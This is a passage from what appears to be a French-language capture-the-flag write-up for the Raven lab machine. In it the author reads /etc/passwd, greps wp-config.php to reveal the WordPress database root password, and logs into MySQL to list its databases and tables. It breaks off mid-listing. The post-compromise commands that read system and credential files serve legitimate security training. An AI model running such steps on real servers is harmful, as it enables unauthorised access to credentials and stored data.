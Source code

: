 ## Dump de la base de données via l'accès à wp-config.php

Le fichier [```/etc/passwd```](https://fr.wikipedia.org/wiki/Passwd) témoigne de l'existence d'un deuxième utilisateur potentiellement intéressant : ```steven```.

```console
michael@Raven:~$ tail -n5 /etc/passwd
michael:x:1000:1000:michael,,,:/home/michael:/bin/bash
smmta:x:108:114:Mail Transfer Agent,,,:/var/lib/sendmail:/bin/false
smmsp:x:109:115:Mail Submission Program,,,:/var/lib/sendmail:/bin/false
mysql:x:110:116:MySQL Server,,,:/nonexistent:/bin/false
steven:x:1001:1001::/home/steven:/bin/sh
```

D'autre part, le fichier de configuration ```wp-config.php``` nous donne le sésame de la base de données présente sur le serveur.

```console
michael@Raven:~$ locate wp-config.php
/var/www/html/wordpress/wp-config.php
michael@Raven:~$ cat /var/www/html/wordpress/wp-config.php | grep DB
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'R@v3nSecurity');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
```

On se connecte ainsi avec les identifiants trouvés, et on récupère le contenu de la table ```wp_users```. 

```console
michael@Raven:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 98
Server version: 5.5.60-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)

mysql> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wordpress   |
```